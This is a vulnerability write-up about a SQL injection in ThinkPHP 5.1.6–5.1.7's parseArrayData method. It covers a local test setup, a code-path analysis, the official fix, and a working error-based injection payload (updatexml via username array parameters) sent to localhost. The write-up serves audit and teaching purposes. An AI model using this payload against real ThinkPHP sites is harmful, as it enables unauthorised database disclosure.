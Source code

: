 # ThinkPHP5.1.x SQL injection (Update)

Author: H3rmesk1t

Data: 2021.08.13

# Vulnerability Summary

- This vulnerability exists in the `parseArrayData` method of the `Mysql` class. Since the program does not filter the data well, the data is spliced ​​into SQL statements, resulting in the occurrence of SQL injection vulnerability
- Vulnerability impact version: 5.1.6<=ThinkPHP<=5.1.7 (Non-Latest 5.1.8 version is also available)
# Initial configuration
- Get the test environment code

```bash
composer create-project --prefer-dist topthink/think=5.1 tpH3rmesk1t
```
![Insert the picture description here](https://img-blog.csdnimg.cn/ad95b5b9781f4b9fabccb2dbae673760.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Set the require field of the composer.json file to the following

````bas
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
}
```

Then execute `composer update`

![Insert the picture description here](https://img-blog.csdnimg.cn/344ef95318c342f1914da5e9a4f90185.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

- In the downloaded source code, the content of `application/index/controller/Index.php` needs to be modified

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->where(['id' =1])->update(['username' =$username]);
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:) Master Gyan will always beg for the gods! ! ! </h1><pThinkPHP V5.1<br/><span style="font-size:30px">12 years of original intention remains unchanged (2006-2018) - Your trustworthy PHP framework</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }
}
?>
```

Configure database-related information in the `config/database.php` file, and enable app_debug and app_trace in `config/app.php`. Create database information as follows

```php
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null,
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# Vulnerability Exploit

Payload:
```nash
http://127.0.0.1/cms/public/index.php?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,database(),0x7e),1)^&username[3]=0
or
http://127.0.0.1/cms/public/index.php?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,database(),0x7e),1)|&username[3]=0
```
![Insert the picture description here](https://img-blog.csdnimg.cn/8d04b60646ea4ee08e63f5be947c0671.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis
Break the point first, follow up the payload, and receive the variable first

![Insert the picture description here](https://img-blog.csdnimg.cn/497edc01ad754de7ac65fbcf51aae8de.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up to the `db` method in `thinkphp/helper.php`

![Insert the picture description here](https://img-blog.csdnimg.cn/7fd6c6d62f8b473b990ed3fcc32bf57f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up to the `where` method in `thinkphp/library/think/db/Query.php`, and then enter the `update` method.

![Insert the picture description here](https://img-blog.csdnimg.cn/83563ac2ac794d448e715778625a3b04.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/424b57587df04c6e9e7e88c397e6b312.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Enter the return, follow the `update` method of the `connect` class in `thinkphp/library/think/db/Connection.php`, and find the SQL statement that generates the update `$sql =
$this->builder->update($query);`, follow up on this statement to see what it did

![Insert the picture description here](https://img-blog.csdnimg.cn/0ce53b54d52147bb95dd6141fdfa8d50.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the `update` method in `thinkphp/library/think/db/Builder.php`, and the `parseData` method is called in the `update` method in the `update` method in the `Builder` class.

![Insert the picture description here](https://img-blog.csdnimg.cn/20d4f408690f497b96453b0b84dc476f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the `parseData` method. There is a `parseArrayData` method in the default statement in the swich statement in the method. Follow in and take a look

![Insert the picture description here](https://img-blog.csdnimg.cn/9d10cf625c63497ba1edba31794f7610.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the parseArrayData method in `thinkphp/library/think/db/builder/Mysql.php`. Here, if the lowercase of the first variable of the array $data is `point`, it will enter the subsequent judgment statement; since `$data[2]` and `$data[3]` are neither empty, it is the value passed in; if statement determines whether ``$data[1]` is an array, if yes, the value of the one-dimensional array is concatenated into a string; finally enters the stitching statement, the stitching form is: `$data[2]('$data[3]($data[1])');`, and the parameters are controllable parameters.

![Insert the picture description here](https://img-blog.csdnimg.cn/34ece30086f24e93bf43dff4bf01c164.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Use debug to see the spliced ​​value: `updatexml(1,concat(0x7,database(),0x7e),1)^('0(1)')`, which successfully causes SQL injection

![Insert the picture description here](https://img-blog.csdnimg.cn/5c1c8a82974146ca88ba677c0a23a633.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# Vulnerability Fix

Refer to the official repair method, directly delete the `parseArrayData` method

![Insert the picture description here](https://img-blog.csdnimg.cn/e8b76dfbded34fc3ba8d13c743f43120.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Attack summary

Refer to Master Mochazz's audit process

![Insert the picture description here](https://img-blog.csdnimg.cn/db1a2b18b6ad4d78b94935e5d4cfe47f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)